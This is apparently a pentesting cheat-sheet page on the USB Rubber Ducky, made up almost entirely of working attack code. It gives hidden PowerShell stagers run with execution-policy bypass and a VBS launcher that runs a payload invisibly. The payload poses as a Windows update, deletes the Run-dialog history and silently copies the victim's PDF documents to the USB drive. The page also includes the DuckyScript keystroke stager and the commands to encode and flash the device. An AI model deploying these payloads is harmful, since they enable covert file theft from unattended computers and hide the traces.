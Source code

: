 ```yaml
---
title: Rubber Ducky
category: Exploitation
order: 100
---
```


> **Find the Rubber Ducky’s drive letter** 

{% highlight powershell %}
for /f %d in ('wmic volume get driveletter^, label^|findstr “DRIVENAME”'') do @set DK=%d 
{% endhighlight %}


> **Execute the Stager** 

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass " $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DriveName' } | select name; cd $uP.name; .\d.cmd"
{% endhighlight %}

> **Clean up run history** 

{% highlight powershell %}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue
{% endhighlight %}

> **Run the Program and Clean-up**

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass "rp -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue; $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DN' } | select name; cd $uP.name; .\d.cmd"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
{% endhighlight %}

{% highlight powershell %}
#Second Version
powershell "$u=gwmi Win32_Volume|?($_Label -eq'_')|select name; cd $uname;.\d.cmd"
#65 Character Version
powershell".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
#Note: The shorter versions don't change the directory
{% endhighlight %}

> **d.cmd: Stager 1** 

{% highlight powershell %}
@echo off
REM start /MIN e.cmd
@cls
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"
cscript i.vbs e.cmd
@exit
#Note: Powershell portion flashes the CAPS lock button to demonstrate that the first stage has completed successfully
{% endhighlight %}

> **i.vbs: Stager 2** 
{% highlight vb %}
CreateObject("Wscript.Shell").Run """ & WScript.Arguments(0) & """", 0, False
{% endhighlight %}

> **e.cmd: Payload** 

{% highlight powershell %}
@echo off
@echo Installing Windows Update

REM Delete registry keys storing Run dialog history
REG DELETE HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f

REM Creates directory compromised of computer name, date and time
REM %~d0 = path to this batch file. %COMPUTERNAME%, %date% and %time% pretty obvious
set dst=%~d0\slurp\%COMPUTERNAME%_%date:~-4,4%%date:~-10,2%%date:~7,2%_%time:~-11,2%%time:~-8,2%%time:~-5,2%
mkdir %dst% >>nul

if Exist %USERPROFILE%\Documents (
REM /C Continues copying even if errors occur.
REM /Q Does not display file names while copying.
REM /G Allows the copying of encrypted files to destination that does not support encryption.
REM /Y Suppresses prompting to confirm you want to overwrite an existing destination file.
REM /E Copies directories and subdirectories, including empty ones.

REM xcopy /C /Q /G /Y /E %USERPROFILE%\Documents\*.pdf %dst% >>nul

REM Same as above but does not create empty directories
xcopy /C /Q /G /Y /S %USERPROFILE%\Documents\*.pdf %dst% >>nul
)

REM Blink CAPSLOCK key
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"

@cls
@exit
{% endhighlight %}

> **Rubber Ducky Stager**

{% highlight bash %}
REM USB Exfiltration Payload from Hak5 episodes 2112 - 2114
REM Target: Windows XP SP3+ Author: Hak5Darren Props: Diggster, Midnightsnake
DELAY 1000
GUI r
DELAY 100
STRING powershell ".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
ENTER
{% endhighlight %}

> **Encode Using Rubber Ducky Encoder**

{% highlight bash %}
java -jar duckencode.jar -i ../slerp/payload.txt -o inject.bin
./ducktools.py -e -l us ../slerp/payload.txt inject.bin
{% endhighlight %}

> **Flashing Rubber Ducky**

{% highlight bash %}
sudo apt-get install dfu-programmer
sudo dfu-programmer at32uc3b1256 dump
sudo dfu-programmer at32uc3b1256 erase
sudo dfu-programmer at32uc3b1256 flash --supress-bootloader-mem c_duckv2.1.hex
sudo eject /media/dk/_
{% endhighlight %}

{% highlight bash %}
sudo ./ducky-flasher
sudo eject /media/dk/_
{% endhighlight %}

> **Further References** 

Rubber Ducky Encoder:
[https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Ducky_Encoder_GUI.jar](https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Ducky_Encoder_GUI.jar)
[https://github.com/kevthehermit/DuckToolkit](https://github.com/kevthehermit/DuckToolkit)

Create a Rubber Ducky:
[http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick](http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick)
[https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-
stick](https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-stick)

Payloads:
[https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads)
[https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload)

[https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky](https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky)

[https://github.com/hak5darren/USB-Rubber-Ducky](https://github.com/hak5darren/USB-Rubber-Ducky)

[http://usbrubberducky.com/#!index.md](http://usbrubberducky.com/#!index.md)

[https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained](https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained)

[](https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained)


